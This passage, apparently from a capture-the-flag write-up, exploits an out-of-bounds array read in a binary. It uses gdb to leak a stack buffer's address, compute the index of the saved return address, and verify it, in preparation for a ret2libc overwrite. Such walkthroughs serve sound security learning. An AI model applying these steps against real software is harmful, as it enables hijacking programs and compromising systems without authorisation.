     Input command: read

    Index: -9
    Number at data[4294967287] is 4294956132
    Completed read command successfully

`4294956132` == `0xffffd464`, good!

We have the address of the tab, and we can find this address at the runtime with the index `-9`

We need now the index of EIP in the `read_number` function

    (gdb) b *main+520
    Breakpoint 2 at 0x804892b

    (gdb) c
    Continuing.
    Index: -9
    Number at data[4294967287] is 4294956132
    Completed read command successfully
    Input command: read

    Breakpoint 2, 0x0804892b in main ()

Get the frame infos to get EIP

    (gdb) i f
    Stack level 0, frame at 0xffffd630:
    eip = 0x804892b in main; saved eip 0xf7e45513
    Arglist at 0xffffd628, args: 
    Locals at 0xffffd628, Previous frame's sp is 0xffffd630
    Saved registers:
    ebx at 0xffffd61c, ebp at 0xffffd628, esi at 0xffffd620, edi at 0xffffd624, eip at 0xffffd62c


In the stack frame, the address of EIP is `0xffffd62c`. Find the addres by calculating the difference between the tab address and the EIP address like before

    0xffffd62c - 0xffffd464 = 456

    456 / 4 = 114

The index of EIP in the tab seems to be `114`, check it

    Input command: read

    Index: 114
    Number at data[114] is 4158936339
    Completed read command successfully

`4158936339` == `0xf7e45513`

Verify by checking the content of EIP at the same breakpoint

    Breakpoint 2, 0x0804892b in main ()

    (gdb) x/x 0xffffd62c
    0xffffd62c:	0xf7e45513

Ok, it's good. We have the index of EIP. We will try to overwrite it with the system function to do a ret2libc
